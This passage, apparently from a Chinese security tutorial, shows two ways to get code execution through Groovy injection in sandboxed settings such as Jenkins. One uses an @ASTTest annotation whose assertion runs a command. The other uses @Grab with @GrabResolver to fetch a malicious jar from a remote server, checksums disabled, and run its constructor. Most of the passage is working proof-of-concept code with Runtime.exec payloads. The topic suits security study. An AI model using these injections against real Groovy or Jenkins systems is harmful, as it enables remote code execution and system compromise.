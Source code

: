 ## @AST注解执行断言

`Groovy`代码注入都是注入了`execute`方法，从而能够成功执行`Groovy`代码。但是在存在`Groovy`沙箱（`Jenkins`中执行存在`Groovy`沙箱）即只进行`AST`解析无调用或限制`execute`方法的情况下就需要用到其他技巧了。参考`Groovy`的[Meta Programming手册](http://groovy-lang.org/metaprogramming.html)，利用`AST`注解能够执行断言从而实现代码执行

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args) {
        GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
        Class aClass = groovyClassLoader.parseClass('''
@groovy.transform.ASTTest(value={
        assert Runtime.getRuntime().exec("open -a Calculator")
    })
    def x''');
    }
}
```

## @Grab注解加载远程恶意类

Grape`是`Groovy`内建的一个动态`jar`依赖管理程序，允许开发者动态引入不在`ClassPath`中的函式库。编写恶意`EXP`类，命令执行代码写在其构造函数中，然后编译成`jar`包即可，请求远程恶意`jar`包并导入恶意`EXP`类执行其构造函数，从而导致`RCE

```Groovy
public class Exp {
    public Exp() {
        try {
            java.lang.Runtime.getRuntime().exec("open -a Calculator");
        } catch (Exception e) { }
    }
}
```

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args) {
        GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
        Class aClass = groovyClassLoader.parseClass('''
        @GrabConfig(disableChecksums=true)
        @GrabResolver(name="Poc", root="http://127.0.0.1:8888/")
        @Grab(group="Poc", module="EvilJar", version="0")
        import java.lang.String''');
    }
}
```

# Groovy反序列化
